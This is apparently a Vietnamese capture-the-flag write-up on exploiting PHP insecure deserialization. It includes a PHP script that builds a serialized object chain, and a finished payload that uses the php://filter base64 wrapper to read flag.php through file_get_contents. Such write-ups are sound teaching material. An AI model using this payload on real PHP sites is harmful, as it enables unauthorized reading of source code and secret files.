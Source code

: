 Web cho source code và lấy flag trong file `flag.php`:

![image](https://user-images.githubusercontent.com/92881216/236450662-279545ac-809e-4310-a53a-fbb4ae10dc3d.png)

Web nhận param `hix` bằng phương thức GET và unserialize nó. 

Nhìn vào source ta thấy có hàm :
```
public function read()
    {
        $res = "";
        if (isset($this->filename)) {
            $res = file_get_contents($this->filename);
        }
        echo $res;
    }
```
Hàm `read()` này được dùng để đọc file bằng `file_get_contents()` đây là hàm dễ bị khai thác để dùng nó đọc file `flag.php`. Chúng ta có thể kiểm soát serialized data nên sẽ có thể gán `$this->filename` là `flag.php` hoặc dùng warraper(`php://filter/convert.base64-encode/resource=flag.php`).

Hàm `read()` này được gọi thông qua 1 magic method `__wakeup()` (thực thi khi deserialize):
```
public function __wakeup()
    {
        return $this->name->read();
    } 
```
Vậy ta cần đưa vào param `hix` giá trị serialized của object class B từ đó sẽ thực thi các đoạn mã liên tiếp.

script:
```
<?php
class A
{
    public $filename = "php://filter/convert.base64-encode/resource=flag.php";
}
class B
{
    public $name;
    public function __construct($name)
    {
        $this->name = $name;
    }
}
$a = new A();
$b = new B($a);
echo serialize($b);
```
Được payload:
```
O:1:"B":1:{s:4:"name";O:1:"A":1:{s:8:"filename";s:52:"php://filter/convert.base64-encode/resource=flag.php";}}
```
Kết quả:

![image](https://user-images.githubusercontent.com/92881216/236452288-d235b919-fafa-4a25-b1d3-66ee98edd189.png)

Decode Base64:

![image](https://user-images.githubusercontent.com/92881216/236452405-e49207d3-7785-491e-b6c0-1aa64a452f53.png)

> flag: `flag{insecure_deserialization!!!}`

